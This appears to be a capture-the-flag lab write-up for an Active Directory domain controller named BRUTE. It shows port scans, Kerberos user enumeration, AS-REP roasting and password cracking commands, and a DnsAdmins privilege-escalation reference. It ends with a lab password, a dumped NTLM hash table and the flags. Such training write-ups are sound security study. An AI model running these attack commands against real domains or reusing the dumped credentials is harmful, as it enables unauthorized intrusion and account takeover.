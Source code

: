 # BRUTE / Active Directory

![](../.gitbook/assets/d021708423ec45ff9b88d667b17ca420.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-03-15 22:11:15Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: brute.csl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: brute.csl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BRUTE
|   NetBIOS_Domain_Name: BRUTE
|   NetBIOS_Computer_Name: BRUTE-DC
|   DNS_Domain_Name: brute.csl
|   DNS_Computer_Name: Brute-DC.brute.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-15T22:12:15+00:00
|_ssl-date: 2021-03-15T22:12:23+00:00; -1s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49703/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

ADD brute.csl to your hosts

## SMB ENUMERATION

* DEAD END

## LDAP ENUMERATION

* NOTHING INTERESTING

  ```text
  PORT    STATE SERVICE VERSION
  389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: brute.csl, Site: Default-First-Site-Name)
  | ldap-rootdse: 
  | LDAP Results
  |   <ROOT>
  |       domainFunctionality: 7
  |       forestFunctionality: 7
  |       domainControllerFunctionality: 7
  |       rootDomainNamingContext: DC=brute,DC=csl
  |       ldapServiceName: brute.csl:brute-dc$@BRUTE.CSL
  |       isGlobalCatalogReady: TRUE
  |       supportedSASLMechanisms: GSSAPI
  |       supportedSASLMechanisms: GSS-SPNEGO
  |       supportedSASLMechanisms: EXTERNAL
  |       supportedSASLMechanisms: DIGEST-MD5
  ------REDACTED---------------
  ```

## KERBEROS

### USER ENUMERATION

```text
kerbrute -users /usr/share/seclists/Usernames/Names/names.txt -domain BRUTE -dc-ip brute.csl
```

![](../.gitbook/assets/ac4ca40e463c421aae2f7efdf0fddd98.png)

```text
GetNPUsers.py brute.csl/ -usersfile name.txt -format john -outputfile hash
```

![](../.gitbook/assets/4059f897a57f4d37bdae61f1d9c367d2.png)

```text
sudo john --wordlist=/opt/passwd/rockyou.txt hash
```

![](../.gitbook/assets/0b857cd1b42a4960bdf68bd5c87b75d7.png)

## GET SHELL

![](../.gitbook/assets/c7710267ed8942759e88bc3b4e0fe1ee.png)

### WINPEAS

* DNSADMIN GROUP

![](../.gitbook/assets/fd84e5e3d6194c8482155fd964f2e974.png)

## PRIVESC

* [https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges\#dnsadmins](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#dnsadmins)

![](../.gitbook/assets/6812b05362194ad3bb8bbf1193143cdf.png)

## CREDS

```text
tess:Unique1
```

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e2068a39ee8150b697797d6c3e513df7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:dce76e96c26970aa2b5073fc7d1039c0:::
darleen:1103:aad3b435b51404eeaad3b435b51404ee:010cd964be3ff74c0b02ad6b8055a990:::
malcolm:1104:aad3b435b51404eeaad3b435b51404ee:d0997f56bbdfc941c5c03a19268e3a44:::
Patrick:1105:aad3b435b51404eeaad3b435b51404ee:aaf14517351412e9d5264e354515a155:::
Tess:1106:aad3b435b51404eeaad3b435b51404ee:f51333fc5222add92d7e311ec06bd2ef:::
BRUTE-DC$:1000:aad3b435b51404eeaad3b435b51404ee:84ea5cc74bb571005e2ddc5cd72ca734:::
```

## FLAGS

### USER

```text
fb23c6d8d663aa63870cfb5e535597a8
```

### ROOT

```text
393bca87e3cb9dc049f3e61483f83cc1
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

